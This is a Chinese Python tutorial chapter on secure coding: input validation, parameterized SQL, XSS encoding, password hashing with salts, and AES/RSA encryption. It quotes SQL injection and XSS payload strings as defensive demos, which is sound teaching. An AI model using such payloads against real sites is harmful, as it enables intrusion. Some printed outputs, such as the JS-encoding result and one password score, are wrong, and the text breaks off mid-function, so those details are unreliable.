



+++
title = "第33章 安全"
weight = 330
date = "2026-04-08T13:22:00+08:00"
type = "docs"
description = ""
isCJKLanguage = true
draft = false
+++

# 第三十三章：安全——守护代码的数字保镖

> 🎭 **章前语**：你以为你的代码很安全？让我给你讲一个关于"admin/admin"的恐怖故事……

想象一下，你辛辛苦苦写了一个网站，用户数据、密码、银行卡信息应有尽有。然后某天，你发现数据库里躺着一行神秘的 SQL：`DELETE FROM users WHERE id=1`。恭喜你，你的网站被黑了，而黑客用的密码可能是"123456"。

安全，不是你上线后才想起来的问题，而是从你写下第一行代码的那一刻起，就该刻进 DNA 里的信仰。

本章我们将用 Python 这把瑞士军刀，聊聊如何让你的代码固若金汤——至少，不会被"黑客"用`123456`攻破。

---

## 33.1 安全编程原则

### 33.1.1 输入验证（过滤与清洗）

**专业术语先解释**：输入验证（Input Validation）是什么？简单说就是：**永远不要相信用户输入的数据**。你永远不知道用户会往表单里塞什么——可能是`正常的名字`，也可能是`<script>alert('你被黑了')</script>`，或者是一整本《战争与和平》。

用户输入就像陌生人递给你的礼物盒——在打开之前，你最好先检查一下里面有没有炸弹。

**输入验证的核心原则**：
1. **白名单原则**（Whitelist）：只允许你知道是安全的东西进来
2. **过滤原则**（Filter）：把危险的东西踢出去
3. **清洗原则**（Sanitize）：把危险的东西变成无害的

来看一个**反面教材**（不要学！）：

```python
# ❌ 危险！直接拼接用户输入，迟早出事
def display_comment(comment):
    print(f"用户留言：{comment}")  # 如果用户输入 <script>alert('XSS')</script> 呢？
```

再来看一个**正面教材**：

```python
# ✅ 正确的输入验证示例
import re
from html import escape

def validate_username(username):
    """
    验证用户名：只允许字母、数字和下划线，长度3-20
    """
    if not username:
        return False, "用户名不能为空"
    
    # 白名单验证：只允许字母、数字、下划线
    if not re.match(r'^[a-zA-Z0-9_]{3,20}$', username):
        return False, "用户名只能包含字母、数字和下划线，长度3-20字符"
    
    return True, username

def sanitize_input(user_input, max_length=1000):
    """
    清洗用户输入：转义 HTML 特殊字符
    """
    if not user_input:
        return ""
    
    # 转义 HTML 特殊字符，防止 XSS
    cleaned = escape(str(user_input))[:max_length]
    return cleaned

# 测试一下
is_valid, result = validate_username("Alice_123")
print(f"验证结果: {is_valid}, 用户名: {result}")  # 验证结果: True, 用户名: Alice_123

is_valid, result = validate_username("Alice<script>")
print(f"验证结果: {is_valid}, 错误信息: {result}")  # 验证结果: False, 错误信息: 用户名只能包含字母、数字和下划线

dangerous_input = "<script>alert('黑客来了')</script>"
safe_input = sanitize_input(dangerous_input)
print(f"清洗后的输入: {safe_input}")  # 清洗后的输入: &lt;script&gt;alert(&#39;黑客来了&#39;)&lt;/script&gt;
```

**输入验证的实战场景**——注册表单验证：

```python
import re
from dataclasses import dataclass
from typing import Optional

@dataclass
class ValidationResult:
    is_valid: bool
    error_message: Optional[str] = None
    sanitized_value: Optional[str] = None

def validate_email(email: str) -> ValidationResult:
    """
    验证邮箱格式
    """
    if not email:
        return ValidationResult(False, "邮箱不能为空")
    
    # 标准的邮箱正则（简化版，真实场景用更严格的正则）
    pattern = r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'
    if not re.match(pattern, email):
        return ValidationResult(False, "邮箱格式不正确")
    
    return ValidationResult(True, sanitized_value=email.lower().strip())

def validate_password(password: str) -> ValidationResult:
    """
    验证密码强度
    """
    if len(password) < 8:
        return ValidationResult(False, "密码至少8位")
    
    if not re.search(r'[A-Z]', password):
        return ValidationResult(False, "密码需包含大写字母")
    
    if not re.search(r'[a-z]', password):
        return ValidationResult(False, "密码需包含小写字母")
    
    if not re.search(r'\d', password):
        return ValidationResult(False, "密码需包含数字")
    
    return ValidationResult(True, sanitized_value=password)

def validate_age(age_str: str) -> ValidationResult:
    """
    验证年龄：必须是数字，且在合理范围内
    """
    try:
        age = int(age_str)
        if age < 0 or age > 150:
            return ValidationResult(False, "年龄必须在0-150之间")
        return ValidationResult(True, sanitized_value=age)
    except ValueError:
        return ValidationResult(False, "年龄必须是数字")

# 模拟注册表单验证
form_data = {
    "username": "Alice",
    "email": "Alice@Example.com",
    "password": "SecurePass123",
    "age": "25"
}

# 验证各项
results = {
    "email": validate_email(form_data["email"]),
    "password": validate_password(form_data["password"]),
    "age": validate_age(form_data["age"])
}

for field, result in results.items():
    if result.is_valid:
        print(f"✅ {field}: 验证通过，清理后值: {result.sanitized_value}")
    else:
        print(f"❌ {field}: 验证失败 - {result.error_message}")
# ✅ email: 验证通过，清理后值: alice@example.com
# ✅ password: 验证通过，清理后值: SecurePass123
# ✅ age: 验证通过，清理后值: 25
```

> 💡 **小贴士**：输入验证要**服务端和客户端双重验证**。客户端验证只是为了用户体验好，真正的安全防线在服务端！因为客户端的 JS 代码可以被黑客直接绕过。

### 33.1.2 参数化查询（防止 SQL 注入）

**专业术语先解释**：SQL 注入（SQL Injection）是什么？想象你开了一家餐厅，用户说"我要点一份披萨"，你就直接去厨房做。但有个坏蛋说"我要点一份披萨，顺便把保险柜打开"，然后你还真把保险柜打开了——SQL 注入就是这么回事，当用户输入的数据被当成 SQL 命令的一部分执行时，就是注入攻击。

**一个经典的 SQL 注入场景**：

```python
# ❌ 危险！直接拼接用户输入到 SQL
def login_unsafe(username, password):
    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
    # 黑客输入: username = "' OR '1'='1' --"
    # 实际执行的 SQL: SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = ''
    # 这行代码会返回所有用户，黑客直接登录成功！
```

**参数化查询的正确姿势**：

```python
import sqlite3
from typing import Optional, Tuple

def login_safe(username: str, password: str) -> Optional[Tuple[int, str]]:
    """
    使用参数化查询进行登录验证
    """
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()
    
    try:
        # ✅ 参数化查询：用户输入被当作数据，不会被当作 SQL 命令
        query = "SELECT id, username FROM users WHERE username = ? AND password = ?"
        cursor.execute(query, (username, password))
        result = cursor.fetchone()
        
        if result:
            print(f"登录成功！用户ID: {result[0]}, 用户名: {result[1]}")
            return result
        else:
            print("用户名或密码错误")
            return None
    finally:
        conn.close()

# 创建测试数据库
def setup_test_db():
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()
    cursor.execute('''
        CREATE TABLE IF NOT EXISTS users (
            id INTEGER PRIMARY KEY,
            username TEXT UNIQUE,
            password TEXT
        )
    ''')
    # 注意：生产环境中密码必须哈希存储！后面会讲
    cursor.execute("INSERT OR REPLACE INTO users VALUES (1, 'alice', 'secret123')")
    conn.commit()
    conn.close()

setup_test_db()

# 测试正常登录
result = login_safe('alice', 'secret123')
# 登录成功！用户ID: 1, 用户名: alice

# 测试 SQL 注入（参数化查询会让它老老实实变成数据）
result = login_safe("' OR '1'='1' --", "anypassword")
# 用户名或密码错误
```

**参数化查询的原理图解**：

```mermaid
flowchart LR
    subgraph 危险做法
        A1[用户输入] --> B1[直接拼接到 SQL]
        B1 --> C1[SELECT * FROM users WHERE name='{input}']
        C1 --> D1[可能执行恶意命令]
    end
    
    subgraph 安全做法
        A2[用户输入] --> B2[作为参数传递]
        B2 --> C2[execute 'SELECT...WHERE name=?', input]
        C2 --> D2[数据库知道这是数据不是命令]
    end
```

> 💡 **小贴士**：不同的数据库连接库，参数化查询的语法略有不同：
> - SQLite、MySQL connector：`?` 作为占位符
> - PostgreSQL：`%s` 或 `$1` 作为占位符
> - SQLAlchemy ORM：自动帮你参数化

### 33.1.3 输出编码（XSS 防护）

**专业术语先解释**：XSS（Cross-Site Scripting，跨站脚本攻击）是什么？黑客在你的网站上插入恶意 JavaScript 脚本，当其他用户访问这个页面时，这些脚本就会在他们的浏览器里执行。想象你在自家门口贴了一张告示，结果有人偷偷在告示下面塞了一张"假告示"，你的访客看到的其实是那张假告示上写的东西——这就是 XSS。

**一个经典的 XSS 场景**：

```python
# ❌ 危险！直接把用户输入输出到 HTML
def display_comment_unsafe(comment):
    return f"<div class='comment'>{comment}</div>"
    # 如果 comment = "<script>stealCookies()</script>"
    # 浏览器会执行这段 JavaScript！
```

**输出编码的正确姿势**：

```python
from html import escape
import html

def display_comment_safe(comment):
    """
    安全地显示用户评论：转义所有 HTML 特殊字符
    """
    # 转义 HTML 特殊字符
    escaped_comment = escape(comment, quote=True)
    return f"<div class='comment'>{escaped_comment}</div>"

# 测试
user_comment = "<script>alert('XSS attack!')</script>"
safe_html = display_comment_safe(user_comment)
print(f"转义后的 HTML:\n{safe_html}")
# 转义后的 HTML:
# <div class='comment'>&lt;script&gt;alert(&#39;XSS attack!&#39;)&lt;/script&gt;</div>
```

**不同场景的编码方式**：

```python
import html
import json
import urllib.parse

def encode_for_html(value: str) -> str:
    """HTML 上下文编码"""
    return html.escape(value, quote=True)

def encode_for_url(value: str) -> str:
    """URL 上下文编码"""
    return urllib.parse.quote_plus(value)

def encode_for_js(value: str) -> str:
    """JavaScript 上下文编码"""
    return json.dumps(value)

def encode_for_css(value: str) -> str:
    """CSS 上下文编码"""
    return value.replace("\\", "\\\\").replace("'", "\\'")

# HTML 上下文
html_input = "<div onclick='alert(1)'>点击我</div>"
print(f"HTML 编码: {encode_for_html(html_input)}")
# HTML 编码: &lt;div onclick=&#39;alert(1)&#39;&gt;点击我&lt;/div&gt;

# URL 上下文
url_input = "hello world & you"
print(f"URL 编码: {encode_for_url(url_input)}")
# URL 编码: hello+world+%26+you

# JavaScript 上下文
js_input = "'; alert('XSS'); //"
print(f"JS 编码: {encode_for_js(js_input)}")
# JS 编码: "\'; alert(\'XSS\'); //"
```

> 💡 **小贴士**：XSS 防护的关键是**根据输出位置选择正确的编码方式**。输出到 HTML 用 HTML 转义，输出到 JavaScript 用 JSON 转义，输出到 URL 用 URL 编码。记住：**输出到哪，就用哪的编码规则**。

---

## 33.2 密码安全

### 33.2.1 哈希存储（bcrypt / argon2）

**专业术语先解释**：哈希（Hash）是什么？想象你有一台神奇的绞肉机，你把一块肉扔进去，它会吐出一串香肠。这串香肠有以下几个特点：1）同样的肉总是吐出同样的香肠；2）知道香肠几乎不可能倒推出原来那块肉；3）肉和香肠长度完全无关（一块小肉可能吐出一根长香肠，一块大肉可能只吐出短香肠）。哈希就是这样一种单向函数——计算容易，逆向极难。

**密码为什么要哈希存储？** 假设你的网站被黑客攻破了，数据库被偷走了。如果密码是明文存储的，黑客直接看到所有用户的密码——然后黑客会用这些密码去尝试登录用户的邮箱、银行账户（因为很多人到处用同一个密码）。但如果密码是哈希存储的，黑客看到只是一堆乱码一样的哈希值，无法直接用于登录。

**bcrypt：密码哈希的老前辈**：

```python
import bcrypt

def hash_password(password: str) -> bytes:
    """
    使用 bcrypt 对密码进行哈希
    """
    # 生成盐值并哈希
    salt = bcrypt.gensalt()
    hashed = bcrypt.hashpw(password.encode('utf-8'), salt)
    return hashed

def verify_password(password: str, hashed: bytes) -> bool:
    """
    验证密码是否正确
    """
    return bcrypt.checkpw(password.encode('utf-8'), hashed)

# 测试
password = "SuperSecret123!"
hashed_password = hash_password(password)
print(f"原始密码: {password}")
print(f"哈希后的密码: {hashed_password}")
# 原始密码: SuperSecret123!
# 哈希后的密码: b'$2b$12$KIXx...（一串乱码）

# 验证
is_correct = verify_password("SuperSecret123!", hashed_password)
print(f"正确密码验证: {is_correct}")  # True

is_correct = verify_password("WrongPassword", hashed_password)
print(f"错误密码验证: {is_correct}")  # False
```

**argon2：密码哈希的新星**（2015年 Password Hashing Competition 冠军）：

```python
import argon2

def hash_password_argon2(password: str) -> str:
    """
    使用 argon2 对密码进行哈希
    """
    ph = argon2.PasswordHasher(
        time_cost=3,       # 迭代次数
        memory_cost=65536,  # 内存消耗（KB）
        parallelism=4,      # 并行度
        hash_len=32,        # 哈希长度
        salt_len=16         # 盐值长度
    )
    return ph.hash(password)

def verify_password_argon2(password: str, hashed: str) -> bool:
    """
    验证 argon2 哈希的密码
    """
    ph = argon2.PasswordHasher()
    try:
        ph.verify(hashed, password)
        return True
    except argon2.exceptions.VerifyMismatchError:
        return False

# 测试
password = "MySecurePassword2024"
hashed = hash_password_argon2(password)
print(f"argon2 哈希: {hashed}")
# argon2 哈希: $argon2id$v=19$m=65536,t=3,p=4$...

print(f"验证正确密码: {verify_password_argon2(password, hashed)}")  # True
print(f"验证错误密码: {verify_password_argon2('wrong', hashed)}")   # False
```

**bcrypt vs argon2 怎么选？**

| 特性 | bcrypt | argon2 |
|------|--------|--------|
| 诞生时间 | 1999 年 | 2015 年 |
| 安全性 | 仍然安全，但有已知弱点 | 安全性更高 |
| 可调参数 | 时间/迭代次数 | 时间、内存、并行度 |
| 内存消耗 | 固定低内存 | 可配置高内存 |
| 移动设备友好度 | 一般 | 更适合（可限制内存） |

> 💡 **小贴士**：如果你在开发新项目，优先选择 argon2。如果你在维护老项目用的是 bcrypt，也不用急着迁移，bcrypt 仍然是安全的。

### 33.2.2 盐值（Salt）原理

**专业术语先解释**：盐值（Salt）是什么？想象你要藏一本书，光把书锁在保险柜里不够——因为如果保险柜的密码是固定的，黑客可以提前计算好所有常见密码的哈希值（比如"123456"的哈希是`abc123`），然后直接查表就知道你用的是"123456"了。但如果你在密码前面加上一段随机字符串（盐值），再去计算哈希——黑客的查表大法就失效了，因为"123456"和"随机盐值+123456"的哈希完全不同。

**没有盐值的危险**：

```python
import hashlib

# 模拟彩虹表攻击（预先计算好的哈希-密码对照表）
rainbow_table = {
    "e10adc3949ba59abbe56e057f20f883e": "123456",           # MD5("123456")
    "5f4dcc3b5aa765d61d8327deb882cf99": "password",         # MD5("password")
    "25d55ad283aa400af464c76d713c07ad": "12345678"          # MD5("12345678")
}

def login_without_salt(username, password):
    """
    危险！不使用盐值，黑客可以直接查彩虹表
    """
    hash_value = hashlib.md5(password.encode()).hexdigest()
    
    # 黑客直接查表
    if hash_value in rainbow_table:
        print(f"撞库成功！密码是: {rainbow_table[hash_value]}")
        return True
    
    return False

# 测试
login_without_salt("alice", "123456")
# 撞库成功！密码是: 123456
```

**正确使用盐值**：

```python
import hashlib
import secrets
import bcrypt

def hash_password_with_salt(password: str) -> tuple:
    """
    为密码生成随机盐值，然后哈希
    返回: (盐值, 哈希值)
    """
    # 方法1：使用 bcrypt（推荐，自动处理盐值）
    salt = bcrypt.gensalt()
    hashed = bcrypt.hashpw(password.encode('utf-8'), salt)
    return salt, hashed

def verify_with_salt(password: str, hashed: bytes) -> bool:
    """
    使用 bcrypt 验证（盐值已内置在哈希中）
    """
    return bcrypt.checkpw(password.encode('utf-8'), hashed)

# 测试
password = "MySecret123"
salt, hashed = hash_password_with_salt(password)

print(f"盐值: {salt}")
print(f"哈希: {hashed}")

# 验证
print(f"正确密码验证: {verify_with_salt(password, hashed)}")  # True
print(f"错误密码验证: {verify_with_salt('wrong', hashed)}")   # False

# 同一密码再次哈希，会得到不同的结果（因为盐值不同）
salt2, hashed2 = hash_password_with_salt(password)
print(f"\n同一密码再次哈希:")
print(f"新的哈希: {hashed2}")
print(f"两次哈希相等吗？{hashed == hashed2}")  # False！因为盐值不同
```

**盐值的工作原理图解**：



> 💡 **小贴士**：**永远不要重复使用同一个盐值**！每个用户的盐值都应该是随机生成的。使用 Python 的 `secrets` 模块或 `bcrypt.gensalt()` 来生成安全的随机盐值。

### 33.2.3 密码强度验证

**专业术语先解释**：密码强度（Password Strength）是指密码抵抗暴力破解或字典攻击的能力。一个强密码应该有：足够的长度、混合大小写字母和数字、包含特殊字符、不包含常见单词或模式。

**密码强度验证器**：

```python
import re
from enum import Enum
from dataclasses import dataclass

class PasswordStrength(Enum):
    VERY_WEAK = 0
    WEAK = 1
    MEDIUM = 2
    STRONG = 3
    VERY_STRONG = 4

@dataclass
class PasswordStrengthResult:
    strength: PasswordStrength
    score: int  # 0-100
    feedback: list[str]

def evaluate_password_strength(password: str) -> PasswordStrengthResult:
    """
    评估密码强度
    """
    score = 0
    feedback = []
    
    # 长度检查
    if len(password) >= 8:
        score += 20
    elif len(password) >= 6:
        score += 10
        feedback.append("❌ 密码长度至少 8 位更安全")
    else:
        feedback.append("❌ 密码太短，至少需要 6 位")
        return PasswordStrengthResult(PasswordStrength.VERY_WEAK, score, feedback)
    
    if len(password) >= 12:
        score += 10
    if len(password) >= 16:
        score += 10
    
    # 包含小写字母
    if re.search(r'[a-z]', password):
        score += 10
    else:
        feedback.append("❌ 建议包含小写字母")
    
    # 包含大写字母
    if re.search(r'[A-Z]', password):
        score += 10
    else:
        feedback.append("❌ 建议包含大写字母")
    
    # 包含数字
    if re.search(r'\d', password):
        score += 10
    else:
        feedback.append("❌ 建议包含数字")
    
    # 包含特殊字符
    if re.search(r'[!@#$%^&*()_+\-=\[\]{};:\'",.<>/?\\|`~]', password):
        score += 15
    else:
        feedback.append("建议包含特殊字符（如 !@#$% 等）")
    
    # 检查常见密码模式（加分项变减分项）
    common_patterns = [
        r'^[a-z]+[0-9]+$',      # 字母开头+数字结尾
        r'^[A-Z][a-z]+[0-9]+$', # 首字母大写+数字结尾
        r'^[a-z]+$',            # 纯小写字母
        r'^[0-9]+$',            # 纯数字
    ]
    
    for pattern in common_patterns:
        if re.match(pattern, password):
            score -= 10
            feedback.append("⚠️ 检测到常见密码模式，容易被猜测")
            break
    
    # 检查键盘序列
    keyboard_sequences = ['qwerty', 'asdfgh', 'zxcvbn', '123456', 'password', 'admin']
    if any(seq in password.lower() for seq in keyboard_sequences):
        score -= 15
        feedback.append("❌ 检测到键盘序列或常见单词，请避免使用")
    
    # 限制分数范围
    score = max(0, min(100, score))
    
    # 确定强度等级
    if score >= 80:
        strength = PasswordStrength.VERY_STRONG
    elif score >= 60:
        strength = PasswordStrength.STRONG
    elif score >= 40:
        strength = PasswordStrength.MEDIUM
    elif score >= 20:
        strength = PasswordStrength.WEAK
    else:
        strength = PasswordStrength.VERY_WEAK
    
    return PasswordStrengthResult(strength, score, feedback)

# 测试各种密码强度
test_passwords = [
    "123456",        # 弱
    "password",      # 弱
    "Pass123",       # 中等
    "MyP@ssw0rd!",   # 强
    "V3ry$tr0ng&P@ssw0rd!2024",  # 非常强
]

for pwd in test_passwords:
    result = evaluate_password_strength(pwd)
    print(f"\n密码: {pwd}")
    print(f"强度: {result.strength.name} (得分: {result.score}/100)")
    if result.feedback:
        for fb in result.feedback:
            print(f"  - {fb}")

# 密码: 123456
# 强度: VERY_WEAK (得分: 10/100)
#   - ❌ 密码长度至少 8 位更安全
```

---

## 33.3 加密与签名

### 33.3.1 对称加密（AES）

**专业术语先解释**：对称加密（Symmetric Encryption）是什么？想象你有一个保险箱，你知道密码，我也知道密码。你用密码锁上保险箱，我用同一个密码打开——这就是对称加密。加密和解密用的是同一个密钥（Key）。优点是快，缺点是你得想办法把密钥安全地交给我——如果你通过不安全的渠道把密钥告诉我，密钥本身就可能泄露。

**AES（Advanced Encryption Standard）**：目前最流行的对称加密算法，美国政府用它来加密机密信息。AES 有三种密钥长度：128位、192位、256位——数字越大越安全，但速度稍慢。

**用 Python 实现 AES 加密**：

```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from base64 import b64encode, b64decode

def generate_key(key_size=32):
    """
    生成随机密钥
    key_size: 16(AES-128), 24(AES-192), 或 32(AES-256) 字节
    """
    return get_random_bytes(key_size)

def pkcs7_pad(data: bytes, block_size=16) -> bytes:
    """
    PKCS#7 填充
    AES 要求数据长度是块大小的倍数，不足的用字节填充
    """
    padding_len = block_size - len(data) % block_size
    padding = bytes([padding_len] * padding_len)
    return data + padding

def pkcs7_unpad(data: bytes) -> bytes:
    """
    移除 PKCS#7 填充
    """
    padding_len = data[-1]
    return data[:-padding_len]

def encrypt_aes(plaintext: str, key: bytes) -> dict:
    """
    使用 AES-CBC 模式加密数据
    返回: iv(初始化向量), ciphertext(密文)
    """
    # 生成随机 IV（初始化向量）
    iv = get_random_bytes(16)
    
    # 创建加密器
    cipher = AES.new(key, AES.MODE_CBC, iv)
    
    # 填充并加密
    plaintext_bytes = plaintext.encode('utf-8')
    padded_data = pkcs7_pad(plaintext_bytes)
    ciphertext = cipher.encrypt(padded_data)
    
    return {
        'iv': b64encode(iv).decode('utf-8'),
        'ciphertext': b64encode(ciphertext).decode('utf-8')
    }

def decrypt_aes(iv: str, ciphertext: str, key: bytes) -> str:
    """
    使用 AES-CBC 模式解密数据
    """
    iv_bytes = b64decode(iv)
    ciphertext_bytes = b64decode(ciphertext)
    
    # 创建解密器
    cipher = AES.new(key, AES.MODE_CBC, iv_bytes)
    
    # 解密并移除填充
    decrypted_padded = cipher.decrypt(ciphertext_bytes)
    decrypted = pkcs7_unpad(decrypted_padded)
    
    return decrypted.decode('utf-8')

# 演示
key = generate_key(32)  # 256 位密钥
print(f"密钥（十六进制）: {key.hex()}")
# 密钥（十六进制）: a1b2c3d4e5f6...（64个十六进制字符）

original_text = "这是一个秘密信息！包含中文和特殊字符 @#$%"

# 加密
encrypted = encrypt_aes(original_text, key)
print(f"\n加密前: {original_text}")
print(f"IV: {encrypted['iv']}")
print(f"密文: {encrypted['ciphertext']}")

# 解密
decrypted = decrypt_aes(encrypted['iv'], encrypted['ciphertext'], key)
print(f"\n解密后: {decrypted}")
print(f"解密成功？{original_text == decrypted}")  # True
```

**AES 模式选择指南**：

| 模式 | 优点 | 缺点 | 适用场景 |
|------|------|------|----------|
| ECB | 简单快 | 相同明文块产生相同密文，安全性低 | 不推荐 |
| CBC | 安全 | 不能并行处理 | 最常用，文件加密等 |
| GCM | 安全+认证 | 稍复杂 | 网络通信，TLS |

> 💡 **小贴士**：**永远不要使用 ECB 模式**！它会把相同的明文块加密成相同的密文块，黑客一眼就能看出模式。CBC + 随机 IV 是最常见的组合。

### 33.3.2 非对称加密（RSA）

**专业术语先解释**：非对称加密（Asymmetric Encryption）是什么？想象你有一把锁（公钥）和一把钥匙（私钥）。我把锁公开，谁都可以用这个锁锁住保险箱——但只有你有钥匙能打开。这就是非对称加密，也叫公钥密码学。公钥加密，私钥解密；或者反过来（私钥签名，公钥验证）。

**RSA** 是最著名的非对称加密算法，由三个人名首字母命名（Rivest, Shamir, Adleman）。它的安全性基于大数分解的困难性——你可以轻松算出 17×19=323，但要算出 323 是哪两个质数的乘积就麻烦多了。

**用 Python 实现 RSA 加密**：

```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Signature import pkcs1_15
from Crypto.Hash import SHA256
import binascii

def generate_rsa_keypair(key_size=2048):
    """
    生成 RSA 密钥对
    key_size: 密钥位数，常用 2048 或 4096
    """
    key = RSA.generate(key_size)
    private_key = key.export_key()
    public_key = key.publickey().export_key()
    return private_key, public_key

def encrypt_rsa(plaintext: str, public_key_pem: str) -> str:
    """
    使用 RSA 公钥加密数据
    注意：RSA 每次加密的数据长度有限（和密钥长度有关）
    """
    key = RSA.import_key(public_key_pem)
    cipher = PKCS1_OAEP.new(key, hashAlgo=SHA256)
    
    # RSA-OAEP 有 padding 开销，实际能加密的数据更少
    message = plaintext.encode('utf-8')
    ciphertext = cipher.encrypt(message)
    
    return binascii.hexlify(ciphertext).decode('utf-8')

def decrypt_rsa(ciphertext_hex: str, private_key_pem: str) -> str:
    """
    使用 RSA 私钥解密数据
    """
    key = RSA.import_key(private_key_pem)
    cipher = PKCS1_OAEP.new(key, hashAlgo=SHA256)
    
    ciphertext = binascii.unhexlify(ciphertext_hex)
    plaintext = cipher.decrypt(ciphertext)
    
    return plaintext.decode('utf-8')

# 生成密钥对
print("正在生成 RSA 密钥对（可能需要几秒钟）...")
private_key, public_key = generate_rsa_keypair(2048)

print(f"\n私钥（部分）:\n{private_key.decode()[:100]}...")
print(f"\n公钥（部分）:\n{public_key.decode()[:100]}...")

# 加密和解密
original = "你好，RSA 加密！"
print(f"\n原始消息: {original}")

encrypted = encrypt_rsa(original, public_key)
print(f"加密后（十六进制）: {encrypted[:80]}...")

decrypted = decrypt_rsa(encrypted, private_key)
print(f"解密后: {decrypted}")
print(f"加解密成功？{original == decrypted}")  # True
```

**对称加密 vs 非对称加密：选哪个？**

```mermaid
flowchart LR
    subgraph 对称加密
        A1["发送方"] -->|"用同一密钥加密"| B1["加密数据"]
        B1 -->|"用同一密钥解密"| A2["接收方"]
        A1 -->|"密钥安全传输难题| A2"
    end
    
    subgraph 非对称加密
        C1["发送方"] -->|"用公钥加密"| D1["加密数据"]
        D1 -->|"用私钥解密"| C2["接收方"]
        C2 -->|"公钥可公开| C1"
    end
```

**混合加密**：实际应用中，我们通常结合两种方式——用对称加密加密数据（快），用非对称加密传输对称密钥（安全）。

```python
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.Random import get_random_bytes
from Crypto.Hash import SHA256
from Crypto.PublicKey import RSA
import binascii

def pkcs7_pad(data: bytes, block_size=16) -> bytes:
    """PKCS#7 填充"""
    padding_len = block_size - len(data) % block_size
